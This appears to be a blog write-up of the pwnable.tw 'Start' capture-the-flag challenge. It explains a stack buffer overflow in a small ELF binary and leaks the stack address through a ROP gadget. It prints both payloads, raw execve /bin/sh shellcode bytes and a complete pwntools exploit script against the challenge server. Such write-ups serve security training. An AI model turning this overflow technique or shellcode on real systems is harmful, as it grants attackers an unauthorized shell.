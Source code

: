 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
published: true
---
```

First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file. Now we should open disassembler like IDA Pro.
![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)

We have two funcion: `_start` and `_exit`.
As you can see, it firsts push esp, and push address `_exit` fuction, then push 5 times hex numbers. If you look closer by convert it to string, that's the string "Let's start the CTF:" at the beginning of the program. 

_**`int 80` is a system call in Linux, you can read it more at [here](http://asm.sourceforge.net/syscall.html).
It depends on the number before to make a move. E.g: the number before first instruction `int 80` at `0804808F` is 4, it means [sys_write](http://asm.sourceforge.net/syscall.html#4); the number before the second is 3, it is [sys_read](http://asm.sourceforge.net/syscall.html#3).**_

The program lets you type 60 bytes, but it only accepts 20 bytes. Therefore, you can see maybe it has buffer overflow here.

First payload I use buffer overflow to make it returns to ROP gadget (0x08048087).

{: .box-note}
**Note:** Payload 1: "aaaaaaaaaaaaaaaaaaaa\x87\x80\x04\x08"

And then it will print out esp address in stack. Having that address, I can put the shellcode into that.
When comes the `retn;` instruction, ESP is pointing to address has 0x08048087, so next EIP is 0x08048087.



\[About shellcode] You can find shellcode at [here](http://shell-storm.org/shellcode/). For me, I use [this](http://shell-storm.org/shellcode/files/shellcode-752.php).


{: .box-note}
**Note:** Payload 2: 'A' * 20 + p32(esp_add + 20) + shellcode

If you are wondering why in payload (maybe only me, so sad) `esp_add + 20`, it's because that where shellcode is. Why is 20? The program will do this instruction: `add esp 14h`.

Source code for pwn:
{% highlight python linenos %}
from pwn import *

  conn = remote("chall.pwnable.tw", 10000)
  conn.recv(20)

  shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

  payload = 'A'* 20 + p32(0x08048087)
  conn.send(payload)
  esp_add = conn.recv(20)

  esp_add = u32(esp_add[0:4])

  payload = 'A' * 20 + p32(esp_add + 20) + shellcode
  conn.send(payload)

  conn.interactive()
  conn.close()
{% endhighlight %}




